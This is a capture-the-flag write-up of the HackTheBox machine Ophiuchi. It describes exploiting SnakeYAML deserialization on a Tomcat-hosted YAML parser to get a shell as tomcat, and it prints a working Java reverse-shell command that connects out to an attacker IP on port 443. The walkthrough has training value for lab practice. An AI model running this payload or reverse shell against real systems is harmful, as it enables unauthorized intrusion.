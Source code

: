 ```yaml
---
layout: post
title: HackTheBox Ophiuchi Write-up
---
```


<h2>Overview</h2>

Ophiuchi is a Medium-rated Hackthebox linux machine. I gain a foothold via an exposed yaml parser with unrestricted Java methods allowing RCE and a shell as the user tomcat. From there, exposed credentials allow a quick escalation to the user "admin". As admin, I discover I'm able to run a go script as superuser. The file loads scripts without specifying full filepaths, allowing script hijacking and command execution as root.

<h2>Initial Enumeration</h2>

Initial nmap enumeration reveals two ports open: SSH on port 22, and Apache Tomcat site on port 8080.

![image](https://user-images.githubusercontent.com/44827973/141241262-3409fed4-2bc0-47ef-9096-64f8af05ef93.png)

Heading over to port 8080 on a browser reveals an "Online YAML Parser":

![image](https://user-images.githubusercontent.com/44827973/141241523-217abe00-67cf-48a1-8c6f-5e6e8fa2ca59.png)

Testing some gibberish input and clicking parse, I get redirected to this security message:

![image](https://user-images.githubusercontent.com/44827973/141241584-ed9f2860-720c-4a9d-bca7-ee306f6a4d64.png)

Looking to find more clues, I look up the meaning of this strange word "Ophiuchi".

![image](https://user-images.githubusercontent.com/44827973/141242196-d6436a15-b45a-4b87-b2cb-1884505d54e5.png)

Conveniently, the first link shown when I search for "yaml exploit" returns a "SnakeYAML deserialization" blog entry.

![image](https://user-images.githubusercontent.com/44827973/141242358-9499465e-9c78-4bc2-a36b-c0ce616d1cff.png)

<h2>Exploiting SnakeYAML -> RCE</h2>

The blog author details a vulnerability in snakeyaml where, if user input is directly passed to a function, the application can be vulnerable to deserialization leading to RCE.
First on my local host I open an HTTP server, and then on the target website I test the payload provided by the blog.

![image](https://user-images.githubusercontent.com/44827973/141243558-c3d44771-864f-41d6-9e2e-8d4896256bec.png)
![image](https://user-images.githubusercontent.com/44827973/141243557-b5df5fcc-eed0-49bd-a661-e241da4b1e58.png)

The web server attempts to make contact with my host. Looks like the security message is either a trick or not up to date, as I can clearly get some form of execution going.

As explained by the blog, snake yaml can interpret Java class constructors in the yaml payload. Upon parsing the provided payload, snake YAML invokes ScriptEngineManager which as we can see attempted to access the "/META-INF/services/javax.script.ScriptEngineFactory" endpoint.

An exploit for this is provided in this github repo:
https://github.com/artsploit/yaml-payload

Upon parsing our yaml payload, the web server will look for the file "/META-INF/services/javax.script.ScriptEngineFactory" and read its contents. It will then attempt to execute the class file pointed to by this file. This exploit aims to abuse this by creation of a Java class file containing arbitrary commands which will force the web server to execute.

I created a folder tree similar to the exploit, in order for the server to locate the header file "javax.script.ScriptEngineFactory" and the class file containing the code I want executed. This is how it ends up looking:

![image](https://user-images.githubusercontent.com/44827973/141244440-6ec163f4-93c3-4d29-aefd-1128d5a6cf6b.png)

Within the javax.script.ScriptEngineFactory file, I specify the package and class I want executed, which will be my exploit.class within my snakeyaml directory:
`snakeyaml.exploit`

I copied the repo's .java file inside my package directory "snakeyaml", and make a modification of the comand to get a reverse shell. Note how I rename the package and class - Java classes need to be the same name as the filename.

![image](https://user-images.githubusercontent.com/44827973/141244687-06921bf0-9a95-4555-b60a-77fd952824ec.png)

Here is the reverse shell command I use:

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.6/443;cat <&5 | while read line; do $line 2>&5 >&5; done"});
```

After modifying, I compile it with "javac exploit.java".

I start a reverse shell listener with netcat.
When I execute my yaml payload again on the website, I get a hit on my HTTP server with response 200 (meaning OK - there were no errors in retrieving the files). I get a reverse shell as "tomcat".

![image](https://user-images.githubusercontent.com/44827973/141245175-f9ae8a04-98c7-4c1e-8cb3-a12dd562560a.png)
![image](https://user-images.githubusercontent.com/44827973/141245182-168a32f8-a457-40eb-bdd6-0887d379aa24.png)

